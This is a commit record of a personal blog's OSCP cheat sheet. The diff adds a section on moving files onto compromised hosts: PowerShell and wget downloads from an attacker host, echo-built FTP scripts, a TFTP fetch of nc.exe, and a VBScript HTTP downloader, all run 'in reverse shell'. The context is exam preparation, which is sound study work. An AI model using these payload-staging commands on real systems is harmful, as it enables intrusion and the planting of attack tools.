

Before and after one commit to rachelleagarcia/rachelleagarcia.github.io, a Jekyll site: the page built from _posts/2020-06-21-oscp-cheat-sheet.md, in a window 1280 px wide and 1400 px high, scrolled down 2576 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 2907 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
added to OSCP cheat sheet

```diff
--- a/_posts/2020-06-21-oscp-cheat-sheet.md
+++ b/_posts/2020-06-21-oscp-cheat-sheet.md
@@ -64,3 +64,81 @@ The Simple Mail Transport Protocol (SMTP) supports *VRFY* and *EXPN*. They can b
 The Simple Network Management Protocol (SNMP) is based on UDP, and is suspectible to IP spoofing and replay attacks. To scan for SNMP ports, we can use the `nmap` tool. The `-sU` option is used to perform UDP scanning and the `--open` will only display open ports.
 
 	sudo nmap -sU --open -p 161 <TARGET>
+
+
+## File Transfers
+
+### HTTPS
+
+This is probably the easiest way to transfer a file so I usually try this first. If this doesn't work, then I'll move down the list.
+
+	# In Kali
+	python -m SimpleHTTPServer 80
+
+	# In reverse shell - Linux
+	wget <HOST> /file
+
+	# In reverse shell - Windows
+	powershell -c "(new-object System.Net.WebClient).DownloadFile('<HOST>/file.exe','C:\Users\user\Desktop\file.exe')"
+
+### FTP
+
+Windows has a built in FTP client at C:\Windows\System32\ftp.exe so this option *should* work. If not, there are other options down below.
+
+	# In Kali
+	python -m pyftpdlib -p 21 -w
+
+	# In reverse shell
+	echo open <HOST> > ftp.txt
+	echo USER anonymous >> ftp.txt
+	echo ftp >> ftp.txt
+	echo bin >> ftp.txt
+	echo GET file >> ftp.txt
+	echo bye >> ftp.txt
+
+	# Execute
+	ftp -v -n -s:ftp.txt
+
+### TFTP
+
+Use TFTP when completing a file transfer on older Windows versions like Windows XP and Windows Server 2003 as Powershell may not be installed.
+
+	# In Kali
+	atftpd --daemon --port 4444 /tftp
+
+	# In reverse shell
+	tftp -i 10.10.10.10 GET nc.exe
+
+### VBScript
+
+When FTP/TFTP doesn't work, we can use this to download files to the target's machine. The `echo` command will write out a **wget.vbs** script that acts as a HTTP downloader.
+
+	# In reverse shell
+	echo strUrl = WScript.Arguments.Item(0) > wget.vbs
+	echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
+	echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
+	echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
+	echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
+	echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
+	echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
+	echo Err.Clear >> wget.vbs
+	echo Set http = Nothing >> wget.vbs
+	echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
+	echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
+	echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
+	echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
+	echo http.Open "GET",strURL,False >> wget.vbs
+	echo http.Send >> wget.vbs
+	echo varByteArray = http.ResponseBody >> wget.vbs
+	echo Set http = Nothing >> wget.vbs
+	echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
+	echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
+	echo strData = "" >> wget.vbs
+	echo strBuffer = "" >> wget.vbs
+	echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
+	echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
+	echo Next >> wget.vbs
+	echo ts.Close >> wget.vbs
+
+	# Execute
+	cscript wget.vbs <HOST>/file.exe file.exe
```
Also changed, not shown: other parts of _posts/2020-06-21-oscp-cheat-sheet.md (+2 -2 lines).
